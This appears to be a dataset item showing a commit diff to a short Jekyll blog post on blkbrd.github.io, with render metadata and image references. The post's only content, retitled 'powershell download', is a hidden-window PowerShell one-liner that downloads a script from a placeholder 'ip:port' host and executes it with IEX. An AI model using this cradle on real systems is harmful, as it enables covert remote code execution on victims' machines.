

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from _posts/2017-06-23-my-first-post.md, in a window 1280 px wide. Shown: the top 432 px of the page, without its empty margins (160-957 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2017-06-23-my-first-post.md
adding formatting, removing redundant nav bar

```diff
--- a/_posts/2017-06-23-my-first-post.md
+++ b/_posts/2017-06-23-my-first-post.md
@@ -1,17 +1,9 @@
 ---
 layout: post
-title: "Lillian Warner, powershell info"
+title: "powershell download"
 date: 2017-06-23
 ---
-<title>{{ page.title }}</title>
-<nav>
-	<ul>
-		<li><a href="/">Home</a></li>
-	        <li><a href="/about">About</a></li>
-        	<li><a href="/projects">Projects</a></li>
-        	<li><a href="/blog">Blog</a></li>
-		<li><a href="/contact">Contact Me</a></li>
-	</ul>
-</nav>
+<p>
 something like:
-powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"
+<code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"</code>
+</p>
```
